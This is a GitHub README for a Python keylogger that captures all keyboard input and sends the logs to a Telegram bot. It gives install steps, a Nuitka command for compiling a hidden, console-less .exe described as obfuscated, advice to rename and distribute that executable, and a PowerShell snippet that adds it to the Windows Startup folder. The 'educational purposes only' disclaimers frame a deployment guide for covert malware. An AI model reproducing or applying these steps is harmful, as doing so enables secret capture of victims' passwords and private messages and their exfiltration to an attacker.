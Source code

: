 
# Keylogger with Telegram Bot Integration (Nuitka-Compiled)

> ⚠️ **Disclaimer**: This project is for **educational purposes only**. Unauthorized use of keyloggers is illegal and unethical. Do **not** use or distribute this software without **explicit permission** from all affected parties.

---

## 📌 Features

- 🔐 Captures all keyboard input.
- 📤 Sends logs to a Telegram bot at configurable intervals.
- 🛠️ Built in Python, compiled with **Nuitka** to `.exe` for performance and obfuscation.
- 🧙 Runs silently in the background without popping up a terminal window.

---

## ⚙️ Requirements

- Python 3.8 – 3.12
- [Telegram Bot Token](https://core.telegram.org/bots#botfather)
- Telegram Chat ID

Python packages:

```bash
pip install pynput requests
```

Compiler:

```bash
pip install nuitka
```

---

## 📁 Setup

1. Clone this repository or download the files.
2. Open the `keylogger.py` file and set:

```python
TELEGRAM_BOT_TOKEN = "your_bot_token"
TELEGRAM_CHAT_ID = "your_chat_id"
LOG_INTERVAL = 1800  # Log sending interval in seconds (default: 30 minutes)
```

3. Your main file should be named `keylogger.py`.

---

## 🚀 Running the Script

### Run with Python (for testing)

```bash
python keylogger.py
```

---

## 🧙‍♂️ Compile to a Stealth `.exe` using Nuitka

Use the following command to compile your Python script to a **single `.exe`** that **runs in the background** (no terminal pop-up):

```bash
nuitka --standalone --onefile --windows-disable-console keylogger.py
```

The executable will be located in the `/keylogger.dist/` folder. You can rename and distribute it as needed.

> 🧠 Tip: You can also add `--remove-output` and `--nofollow-imports` for a cleaner, smaller output.

---

## 📦 Optional: Add to Startup (Windows)

To make the program run at startup, you can move the `.exe` to the startup folder:

```powershell
$shortcut = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\keylogger.lnk"
$target = "C:\Path\To\Your\keylogger.exe"
$ws = New-Object -ComObject WScript.Shell
$sc = $ws.CreateShortcut($shortcut)
$sc.TargetPath = $target
$sc.Save()
```

---

## ❗ Disclaimer

This software is intended **solely for ethical, educational, and authorized testing** purposes. Using this software on systems or individuals without proper consent is a **criminal offense**. The creator holds **no liability** for any misuse or damage caused by this software.

---

